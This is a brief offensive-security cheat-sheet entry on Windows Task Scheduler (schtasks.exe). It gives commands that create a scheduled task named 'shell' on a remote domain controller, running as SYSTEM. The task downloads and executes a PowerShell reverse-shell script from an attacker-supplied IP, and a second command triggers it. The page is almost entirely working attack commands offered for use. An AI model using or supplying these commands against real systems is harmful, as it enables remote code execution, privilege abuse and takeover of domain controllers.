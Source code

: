 ```yaml
---
description: Task Scheduler Configuration Tool (schtasks.exe)
---
```


# Task Scheduler

{% embed url="https://docs.microsoft.com/en-us/windows/win32/taskschd/about-the-task-scheduler" %}

{% code overflow="wrap" %}
```
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpRun.ps1''')'"

```
{% endcode %}

```
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```
